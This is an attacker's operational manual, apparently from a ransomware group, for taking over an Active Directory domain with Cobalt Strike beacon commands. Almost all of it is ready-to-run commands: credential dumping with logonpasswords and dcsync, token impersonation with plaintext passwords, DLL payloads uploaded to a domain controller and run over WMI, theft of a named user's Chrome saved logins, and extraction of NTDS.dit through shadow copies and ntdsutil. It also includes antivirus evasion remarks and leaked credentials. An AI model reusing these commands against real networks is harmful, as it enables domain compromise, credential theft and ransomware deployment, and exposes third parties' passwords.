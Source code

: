 # Cobalt-manual-with-AD-DC
C:\Windows\System32\config\sam
C:\Windows\System32\config\security
C:\Windows\System32\config\system
                           ------------------> these files store information such as hashed passwords for all Windows user accounts,
								               security related parameters, encryption key data and other important OS kernel configuration information.

sleep 5
ps
cd C:\ProgramData

AV_Query

powershell-import /opt/PowerSploit-dev/Recon/PowerView.ps1
powershell Get-DomainController
powershell Get-DomainComputer -Properties dnshostname
powershell Get-DomainComputer -OperatingSystem *server* -Properties dnshostname
shell net group "domain Admins" /domain
shell net group "Enterprise Admins" /domain
 logonpasswords
 shell nltest /DOMAIN_TRUSTS
 make_token FMH\maysys 34stb4y@345
 dcsync FMH
 upload /home/tester/Desktop/payload/x64.dll (\\FMH-DC01.FMH.local\C$\ProgramData\x64.dll)
 remote-exec wmi FMH-DC01 rundll32.exe C:\ProgramData\x64.dll StartW
 rm \\FMH-DC01.FMH.local\C$\ProgramData\x64.dll
 upload /home/tester/Desktop/FMH/x64.dll (\\FMH-DC01.FMH.local\C$\ProgramData\x64.dll)
 upload /home/tester/Desktop/FMH/tlt.dll (\\FMH-DC01.FMH.local\C$\ProgramData\tlt.dll)
 remote-exec wmi FMH-DC01 rundll32.exe C:\ProgramData\tlt.dll StartW
 rm \\FMH-DC01.FMH.local\C$\ProgramData\tlt.dll
 rm \\FMH-DC01.FMH.local\C$\ProgramData\x64.dll
 rev2self
 make_token FMH.local\Administrator 34stb4y*.*
 powershell-import /opt/PowerSploit-dev/Recon/ShareFinder.ps1
 powerpick Invoke-ShareFinder -Ping -CheckShareAccess -Verbose | Out-File -Encoding ascii C:\ProgramData\share.txt
 download C:\ProgramData\share.txt
 rm C:\ProgramData\share.txt
 dcsync FMH.local
 upload /home/tester/Desktop/FMH/tlt.dll (\\OPERA-APP.FMH.local\C$\ProgramData\tlt.dll)
 remote-exec wmi OPERA-APP.FMH.local rundll32.exe C:\ProgramData\tlt.dll StartW
 rm \\OPERA-APP.FMH.local\C$\ProgramData\tlt.dll
 sleep 0
 net domain_controllers
 net domain_trusts
 shell whoami /all
 shell hostname
 powershell get-adcomputer -filter * | select -expand name
 upload /home/host/Desktop/1.bat (C:\ProgramData\1.bat)
shell cd c:\programata
ls
powershell get-adcomputer -filter * -properties passwordlastset | select name, ipv4address, passwordlastset | sort passwordlastset
  
  
 shell 1.bat
 echo FMH-DC01  1>>c:\programdata\qu.txt 
 quser /server:FMH-DC01   1>>c:\programdata\qu.txt
 
 powershell Get-ADComputer -Filter 'operatingsystem -notlike "*server*" -and enabled -eq "true"' ` -Properties Name,Operatingsystem,IPv4Address,LastLogonDate | Sort-Object -Property Operatingsystem | Select-Object -Property Name,Operatingsystem,IPv4Address,LastLogonDate | Format-Table -AutoSize | out-file c:\programdata\workstations.txt
 powershell Get-ADComputer -Filter 'operatingsystem -notlike "*server*" -and enabled -eq "true"' ` -Properties Name,Operatingsystem,IPv4Address,LastLogonDate | Sort-Object -Property Operatingsystem | Select-Object -Property Name,Operatingsystem,IPv4Address,LastLogonDate | Format-Table -AutoSize
 ls
 upload /home/host/Desktop/2.bat (C:\ProgramData\2.bat)
  echo OPERA-APP  1>>c:\programdata\qu.txt
  quser /server:OPERA-APP   1>>c:\programdata\qu.txt
 powershell Get-ADComputer -Filter 'operatingsystem -like "*server*" -and enabled -eq "true"' ` -Properties Name,Operatingsystem,IPv4Address,LastLogonDate | Sort-Object -Property Operatingsystem | Select-Object -Property Name,Operatingsystem,IPv4Address,LastLogonDate | Format-Table -AutoSize
 ls
 
 
  beacon> upload /home/host/Desktop/3.bat (C:\ProgramData\3.bat)
  shell 3.bat
  echo FMH-DC01  1>>c:\programdata\sh.txt 
  net view \\FMH-DC01 /all   1>>c:\programdata\sh.txt 
  powershell get-adcomputer -filter * -properties passwordlastset | select name, ipv4address, passwordlastset | sort passwordlastset
  download C:\ProgramData\ts.txt
  download c:\programdata\sh.txt
  shell dir \\192.168.1.82\c$
  shell whoami
  rev2self
  make_token MH.local\backups Riverd0gs1
  shell dir \\192.168.1.82\c$
  ********************************************ДРУГАЯ ТАЧКА******************
  sleep 5
  ps
  logonpasswords
  shell systeminfo /s FMH-EXCH01
  rev2self
  make_token FMH.local\Administrator 34stb4y*.*
  sleep 0
  shell dir \\192.168.1.82\c$
  shell quser /server:192.168.1.89
  shell net user scott.geer /dom
  shell tasklist /s 192.168.1.89
  download \\192.168.1.89\c$\users\scott.geer\AppData\Local\Google\Chrome\User Data\Default\History
  download \\192.168.1.89\c$\users\scott.geer\AppData\Local\Google\Chrome\User Data\Default\Login Data
  shell ping FMH-BACKUPS02
  shell quser /server:FMH-BACKUPS02
  shell quser /server:192.168.1.132
  shell ping 192.168.1.132
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
  
get-adcomputer -filter * | select -expand name | out-file c:\programdata\hosts.txt



Get-ADComputer -Filter 'operatingsystem -notlike "windows" -and enabled -eq "true"' ` -Properties Name,Operatingsystem,IPv4Address,LastLogonDate | Sort-Object -Property Operatingsystem | Select-Object -Property Name,Operatingsystem,IPv4Address,LastLogonDate | Format-Table -AutoSize | out-file c:\programdata\other.txt


Get-ADComputer -Filter 'operatingsystem -like "server" -and enabled -eq "true"' ` -Properties Name,Operatingsystem,IPv4Address,LastLogonDate | Sort-Object -Property Operatingsystem | Select-Object -Property Name,Operatingsystem,IPv4Address,LastLogonDate | Format-Table -AutoSize | out-file c:\programdata\servers.txt


Get-ADComputer -Filter 'operatingsystem -notlike "server" -and enabled -eq "true"' ` -Properties Name,Operatingsystem,IPv4Address,LastLogonDate | Sort-Object -Property Operatingsystem | Select-Object -Property Name,Operatingsystem,IPv4Address,LastLogonDate | Format-Table -AutoSize | out-file c:\programdata\workstations.txt

with these scripts we capture and parse hosts that are in the grid
Now I will run a couple of bat files to see what processes are running, where the uses are sitting, all the available balls on the hosts

*****************************************************************************************************************************************************************
take the data from host.txt
to make a bat file
it's done like this
echo FMH-DC01 >> c:\programdata\qu.txt
quser /server:FMH-DC01 >> c:\programdata\qu.txt
and so on with every host from the output
all this is packed into a file with the extension .bat and run on the host through cmd, or shell in KS shell 1.bat
it's best to run from DA -domain admin to have rpc access to every available host in AD
-----------------------------------------------------------------------------------------------------------------------------------------------------------------
This tool can make a shadow copy of ntds.dit and system files
1)vssadmin create shadow /for=C:

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\programdata
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\programdata
To dump the nts file
Sven you asked how to shoot silently
but still some strong avers can detect it, like sofos, sentinel or from palo alto
or this way
PS C:\> ntdsutil
C:\Windows\system32\ntdsutil.exe: activate instance ntds
Active instance set to "ntds".
C:\Windows\system32\ntdsutil.exe: ifm
ifm: help

? - Show this help information
Create Full %s - Create IFM media for a full AD DC or an AD/LDS instance into folder %s
Create Full NoDefrag %s - Create IFM media without defragmenting for a full AD DC or an AD/LDS instance into folder %s
Create RODC %s - Create IFM media for a Read-only DC into folder %s
Create Sysvol Full %s - Create IFM media with SYSVOL for a full AD DC into folder %s
Create Sysvol Full NoDefrag %s - Create IFM media with SYSVOL and without defragmenting for a full AD DC into folder %s Create Sysvol RODC %s - Create IFM media with SYSVOL for a Read-only DC into folder %s
Help - Show this help information
Quit - Return to the prior menu

ifm: create full C:\pwdadmin

CREDITS: Learners Room @dtob1804
